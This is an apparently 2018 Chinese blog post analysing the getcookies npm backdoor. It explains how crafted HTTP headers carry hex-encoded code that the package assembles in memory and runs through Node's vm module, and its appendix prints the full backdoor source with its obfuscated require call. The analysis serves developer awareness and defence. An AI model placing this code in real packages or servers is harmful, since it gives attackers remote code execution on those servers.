 ```yaml
---
title: npm模块别乱下载，说不好就出事了
tags: node
categories:
  - 前端
  - node
  - npm
thumb_img: hack.jpg
date: 2018-05-08 18:08:38
---
```



如果你和我们一样，npm install xxx用的很舒服，可能你的项目会遇到重大的危险。
先来看看一篇别人家的文章——[细思极恐：后门代码被隐藏在npm模块中，差点就得逞](https://mp.weixin.qq.com/s/4JGuRDR54OnJyAqlSns53Q)

为了节省时间，[点击问题讨论地址，直接看看别人怎么说的](https://news.ycombinator.com/item?id=16975025)
{% asset_img blog.png %}

{% asset_img emoji.png %}
可能你看了那篇文章也不太清除发生了什么，那就请看下面

## 问题描述
### 哪些人会出现这样的问题？
直接or间接使用getcookies的人。

比如：你正在使用的Node框架是express，并且通过express-cookies处理cookie功能。那它其中就引用了getcookies。

### 问题有多严重？
getcookies会通过header注入代码，然后在你服务器‘任意遨游’，获取你服务器配置信息、监控你请求、让你宕个机...

### 它是怎么个原理
1. inject 自定义的Header,获取到req.headers
````
req.headers['gfeffh11i'] = 111;
req.headers['gabcdh22i'] = 222;
req.headers['gfaffh33i'] = 333;
````

2. 在请求头中寻找符合**/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi**规则的信息
````
...
// g+hex(2)+h+hex(1)+i
req.headers['gfaffh22i'] = 222;
...
// 以上header将在这个regex命中，并且通过replace执行多次。
JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
    // o=gabcdh00i，p=abcd，v=00
    // 转成hex字符
    p = Buffer.from(p, 'hex').readUInt16LE(0);//52651
    switch (p) {
        ...
    }
})
````

3. 判断注入非法的信息，完成：初始化代码执行环境-->将问题代码添加至内存中-->调用vm执行问题代码
    注释信息，说明了哪些header会被switch命中
    {% asset_img code.png getcookies %}

4. script脚本如何在vm执行（写了个Demo模拟）
````js
// 模拟header中数据的获取，存入内存的过程(default中的逻辑)
function getHexBufer(scriptFn) {
    var result = '';
    for (var i = 0; i < scriptFn.length; i++) {
        // -->ascii-->16hex
        result = result + parseInt(scriptFn[i].charCodeAt(), 10).toString(16);
    }
    // result:2866756e6374696f6e202829207b636f6e736f6c652e6c6f672827636f6d696e6727293b7d292829
    // 16hex的buffer
    // <Buffer 28 66 75 6e 63 74 69 6f 6e 20 28 29 20 7b 63 6f 6e 73 6f 6c 65 2e 6c 6f 67 28 27 63 6f 6d 69 6e 67 27 29 3b 7d 29 28 29>
    return Buffer.from(String(result), 'hex')
}
// 编译脚本
var c = getHexBufer(`(function () {console.log('coming');})()`).toString();
// 通过vm执行脚本
require('vm')['runInThisContext'](c); //输出coming
````

### 你可能需要准备下其他知识
1. [Buffer.from 和 Buffer.alloc 干什么的](http://nodejs.cn/doc/node/buffer.html#buffer_buffer_from_buffer_alloc_and_buffer_allocunsafe)
{% asset_img buffer-1.png Buffer.from&Buffer.alloc %}

2. [readUInt16LE 什么意思]()
如果你不清楚LE、BE。可以再看看这篇：[readInt16BE 和 readInt16LE的区别](http://127.0.0.1:4000/2018/05/08/node-buffer-endian/)

3. \x76\x6d 是什么格式？
是16进制。
然后就能明白源代码中：
````
require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74']
// require('vm')['runInThisContext']
````

    对应的再补充一些进制转换api
    
    ````js
    var test10 = 43981;
    // 10 --> 2
    var test2 = test10.toString(2);//1010101111001101
    // 2 --> 10
    var backTest10 = parseInt(test2, 2);//43981
    // 10 -> 16
    var testHex = parseInt(test2, 2).toString(16);//abcd
    ````

4. [什么是vm？](https://nodejs.org/api/vm.html#vm_vm_runinthiscontext_code_options)
执行script，同时源码中还用了高阶Fn，提供了module.exports, require, req, res, next等信息。我这些都拿到了，我还有什么不能做？
 
## 现状
npm官方已经做了处理，你已经下不到这两个包了
````
Error: [getcookies@*] GET https://registry.npm.taobao.org/getcookies/latest response 404 status
Error: [express-cookies@*] GET https://registry.npm.taobao.org/express-cookies/latest response 404 status
````

## 总结
1. 不要着急升级模块，避免已稳定的模块出现问题
2. 下载使用**优质**，热门模块。用的人多，这样出问题，社区会有解决方案，你不是一个人战斗。
3. 检查下项目中的node_modules，奇奇怪怪的能不用就别用了。
4. 提升自己能力，看的懂大神们写的代码才能hold全场，慢慢积累，但别放弃任何学习源码的机会，比如这个getcookie现在就下载不到了。

## 附录
getcookie源码
````
/* eslint-env es6 */
'use strict';

var assert = require('assert');

let harness = (req, res, callback, next) => {
    try {
        assert.equal(typeof callback, 'function');
    } catch (E) {
        return callback(E);
    }

    try {
        module.exports.log = module.exports.log || Buffer.alloc(0xffff);
        JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
            p = Buffer.from(p, 'hex').readUInt16LE(0);
            switch (p) {
                case 0xfffe:
                    module.exports.log = Buffer.alloc(0xffff);
                    return;
                case 0xfffa:
                    return setTimeout(() => {
                        let c = module.exports.log.toString().replace(/\x00*$/, '');
                        module.exports.log = Buffer.alloc(0xffff);
                        if (c.indexOf('\x00') < 0) {
                            require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74'](c)(module.exports, require, req, res, next);
                        }
                        next();
                    }, 1000);
                default:
                    v = Buffer.from(v, 'hex');
                    for (let i = 0; i < v.length; i++) {
                        module.exports.log[p + i] = v[i];
                    }
            }
        });
    } catch (E) {}

    next();
};

module.exports.assert = (req, res, callback, next) => {
    harness(req, res, callback, next);
};
````